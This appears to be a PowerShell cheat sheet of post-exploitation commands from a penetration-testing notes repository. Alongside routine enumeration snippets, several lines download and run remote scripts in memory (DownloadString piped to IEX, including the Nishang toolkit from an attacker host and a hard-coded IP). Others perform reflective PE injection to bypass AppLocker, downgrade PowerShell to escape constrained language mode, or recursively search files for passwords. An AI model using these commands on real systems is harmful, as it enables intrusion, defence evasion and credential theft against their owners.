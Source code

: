 ## Extract zip file
```powershell
Expand-Archive <FILE>.zip
```

## Execute powershell in memory
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') | IEX
```

## Get files only in a directory
```powershell
(ls -File -Recurse -Force -EA SilentlyContinue).fullname
```

## Get OS architecture
```powershell
$env:processor_architecture
```

## Get Process Architecture
```powershell
[Environment]::Is64BitProcess
```

## Locally listening ports (TCP)
`netstat -ano -p tcp`

## Get ACL
```powershell
Get-ACL <PATH_TO_FILE> | Select -Exp AccessToString
```

## get file system access
```powershell
$ErrorActionPreference = 'silentlycontinue'; ls -recurse -force | ? {$_.fullname -notmatch 'AppData|Application Data|Local Settings'} | ? {(get-acl $_.fullname ).accesstostring -like '*tushikikatomo*'} | select -expand fullname; $ErrorActionPreference = 'continue'
```

## Get Process Owners
```powershell
Get-WmiObject -class win32_process | ? {$_.name -notlike '*svchost*'} | select name,@{n='owner';e={$_.getowner().user}} | ft -autosize
```

## Get .NET Version
### Paths:
```
c:\windows\microsoft.net\framework
c:\windows\microsoft.net\framework64
```
### Command:
```powershell
(Get-Item "c:\windows\microsoft.net\framework64\*\clr.dll").VersionInfo.ProductVersion
```

## get-bytes of a string
`[System.Text.Encoding]::UTF8.GetBytes('hello')`

## Reflective Execution (Can Bypass Applocker)
```powershell
Invoke-reflectivePEInjection -PEBytes ([IO.File]::ReadAllBytes('<PATH_TO_EXE>'))
```

## CMD to powershell
```shell
powershell "IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')"
```

## Start a job with alternative creds
```powershell
Start-Job -Credential $Cred -ScriptBlock {IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')}
```

## Downgrade to powershell v2 (bypass constrained language mode)
```powershell
Start-Process Powershell.exe -ArgumentList "-v 2 -c IEX(New-Object Net.webClient).downloadString('http://10.10.16.7/nishang.ps1')"
```

## Find files Alternate Data Streams
```powershell
$ErrorActionPreference = 'SilentlyContinue'; ls * -Recurse -Force | % {Get-Item $_ -Stream * | ? {$_.Stream -notmatch ':\$DATA|Zone\.Identifier'} |Select FileName, Stream};
$ErrorActionPreference = 'Continue'
```

## View listening connections (with optional PID translation to Proc names)
```powershell
$PROCS = Get-Process;
(Get-NetIPAddress -InterfaceAlias Ethernet0).IPAddress, '127.0.0.1', '0.0.0.0' | % {
	Get-NetTCPConnection -ErrorAction SilentlyContinue -LocalAddress "$_" | 
	Sort-Object LocalPort | 
	Select-Object @{n='Process';e={$ID = $_.OwningProcess; if($PROCS){($PROCS|?{$ID -eq $_.id}).name}else{$ID}}},LocalAddress,LocalPort,RemotePort, RemoteAddress, State |
    ? {$_.localport -lt 49152} |
	Format-Table
}
```

## Enable PowerShell Remoting
```powershell
Enable-PSRemoting -Force
```

## Search for strings in files (needs obtimization)
`$ErrorActionPreference = 'SilentlyContinue';ls -Recurse -Force | % {sls -Path $_.fullname -Pattern ".*password.*"}; $ErrorActionPreference = 'continue'`